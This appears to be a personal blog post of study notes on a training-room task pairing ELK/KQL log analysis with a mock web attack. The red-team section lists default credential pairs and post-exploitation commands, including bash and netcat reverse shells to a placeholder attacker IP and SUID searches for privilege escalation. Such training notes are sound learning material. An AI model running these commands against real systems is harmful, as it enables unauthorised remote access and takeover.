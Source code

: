 ```yaml
---
title: Post 63 - Twice in three days
date: 2024-12-07
tags:
    - log analysis
    - elastic
    - elk
    - kql
    - rce
---
```

## Task 9, Day 3 `Log analysis` Even if I wanted to go, their vulnerabilities wouldn't allow it.
### Operation Blue
Log analysis is crucial to blue-team work.  
  ELK: Elasticsearch, Logstash, and Kirbana  

ELK combines data analytics and processing tools to make log analysis manageable. Forms dedicated stack to aggregate logs from multiple sources into central place. Today starts with Kibana Discover interface.  
- Index pattern: Collection of logs. Could be from single host or multiple hosts with similar purpose, i.e. web servers.  
- KQL: Kibana Query Language - Language for searching documents for values. Semi-similar to Splunks SPL (Search Processing Language).<br>

| Query/Syntax | Description | Example |
| :---: | :---: | :---: |
| " " | Search for specific values. **Exact** search. | "TryHackMe" |
| ** | Wildcard for similar matches to value provided | United** (returns United Kingdom and United States) |
| OR | Shows documents that contain **either** value provided | "United Kingdom" OR "England" |
| AND | Shows documents that contain **both** values provided | "Ben" AND "25" |
| : | Search a specific field in the document. Field availability<cr>depends on fields available in document. | ip.address: 10.10.10.10 |

Can filter out noise by selecting/unselecting certain fields. Adding fields just applies correct KQL syntax through GUI. Can also filter specific values in fields by clicking field in left pane and adding/removing with `+/-`. Can click and drag on timeline to select time covered in search. 

### Operation Red
#### Unrestricted File Uploads
Without the website confirming things like file type, size, file contents it can open door for attacks on webserver.  
- RCE: Uploading a script that the server runs giving control to the attacker.  
- XSS: Uploading HTML file containing XSS code to steal a cookie and send it back to attacker's server.  

#### Usage of Weak Credentials
One of the easiest paths of attack is weak or default creds. Common weak.default creds attacker might try:

| Username | Password |
| :---: | :---: |
| admin | admin |
| administrator | administrator |
| admin@domainname | admin |
| guest | guest |

#### RCE and Web Shells
Post vulnerability exploitation commands to try:

| Command | Use |
| :---: | :---: |
| ls | Gives idea of files and directories around you |
| cat | Outputs contents of documents like text files |
| pwd | Gives idea of where in system you are |
| whoami | Lets you know who you are |
| hostname | System name and potentially its role |
| uname -a | System info like OS, kernel version, etc. |
| id | Shows any groups current user is assigned to |
| ifconfig | Network setup info |
| bash -i >& /dev/tcp/<br>'<your-ip>/'<port> 0>&1 | Begins reverse shell via bash |
| nc -e /bin/sh '<your-ip> <port> | Begin reverse shell via Netcat |
| find / -perm -4000 -type f 2>/dev/null | Finds SUID files, useful for privesc |
| find / -writable -type f 2>/dev/<br>null \| grep -v "/proc/" | Find files with writable permissions |

### The Task
Investigate attack in Kibana to answer blues questions, then recreate attack to answer red questions. Had to watch the end of the video to get my shell going.

### Recommended Stuff
Advanced ELK queries room(?).

